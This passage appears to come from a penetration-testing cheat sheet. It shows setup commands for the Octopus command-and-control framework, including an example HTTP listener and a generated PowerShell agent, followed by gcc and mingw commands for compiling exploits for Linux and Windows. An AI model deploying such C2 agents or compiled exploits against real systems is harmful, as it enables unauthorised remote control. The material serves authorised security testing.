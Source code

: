 If a script is found try [SHELLSHOCK](#shellshock).

------

## Command and control framework

```
# Download
git clone https://github.com/mhaskar/Octopus/tree/v1.2

# Install requirements
pip install -r requirements.txt

# Usage
./octopus.py

# Listener (exemple)
listen_http <BIND_IP> <BIND_PORT> <HOSTNAME> <INTERVAL_IN_SECONDS> <URL> <LISTENER_NAME>
listen_http 0.0.0.0 80 192.168.1.87 5 test.php listener_1

# Agent (exemple)
generate_powershell <LISTENER_NAME>
generate_powershell listener_1
```

------

## Compiling exploits

### For linux

```
# 64 bits
gcc -o exploit exploit.c

# 32 bits
gcc -m32 -o exploit exploit.c
```

### For windows

```
To compile Win32 bit executables, execute i686-w64-mingw32-gcc -o <FILE.exe> <FILE.c>
To compile Win64 bit executables, execute x86_64-w64-mingw32-gcc -o <FILE.exe><FILE.c>
To Compiled .cpp source file, execute i586-mingw32msvc-g++ -o <FILE>.exe <FILE>.cpp
To compile python scripts, pyinstaller --onefile <SCRIPT.py>

# Compile windows .exe on Linux
i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe
```

### Cross compile

